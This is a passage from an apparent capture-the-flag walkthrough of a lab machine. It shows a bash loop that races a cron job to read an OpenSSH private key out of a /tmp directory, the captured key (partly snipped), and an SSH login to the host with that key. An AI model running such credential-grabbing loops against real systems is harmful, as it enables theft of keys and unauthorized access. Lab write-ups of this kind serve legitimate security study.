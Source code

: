 It looks like it’s dumping the database, and then copying the result using `scp` back to 172.169.0.1, which is likely the host.

Whatever cron is doing this must be creating the temp directory in `/tmp` (likely using `mktemp -d` based on the dir name), and then cleaning up when it’s done.

### Capture Key

If I try to run that `cat` command when there’s nothing there, it errors, and the return code is 1:

```

jack@mysql:~$ cat /tmp/*/key
cat: '/tmp/*/key': No such file or directory
jack@mysql:~$ echo $?
1

```

I’ll use a loop like this:

```

while :;
    do cat /tmp/*/key 2>/dev/null;
    if [ $? -ne 1 ]; then
        break;
    fi
done

```

It’s a “while true” loop, but if the return code from that `cat` isn’t 1, then it breaks the loop.

```

jack@mysql:~$ while : ; do cat /tmp/*/key 2>/dev/null; if [ $? -ne 1 ]; then break; fi; done
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAoklCLF2ADUXkxp6NeQjdMjpoNbc0PUG2wumQ10nf1aIl3pils2QS
ZYvEGk+eYsJZCnnLZTe2kJ8U073MrpVlmLtmHlDtdKCZfEguzc9nZjKHIICamNsMNhpTLs
...[snip]...
wJ3Z9QCVL74NS/G8YcZiGR8DvWlH65eI9N892+EwcA0pptnV5oEs3ef5YY7+56PxvKe11N
1WV9Zy6HwXxxoTrXpV2B80Sy/sGFU33QWHbVEHC4SKggdauMbRmHkjCZoDmUqfsNvUhNQb
0jZ2DP0AFwApsAAAAIcm9vdEBsYWIBAgM=
-----END OPENSSH PRIVATE KEY-----

```

### SSH

The key works to SSH to the host as jack:

```

oxdf@hacky$ ssh -i ~/keys/toby-jack jack@toby.htb
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-81-generic x86_64)
...[snip]...
Last login: Mon Jul 12 16:17:23 2021 from 192.168.0.42
jack@toby:~$

```
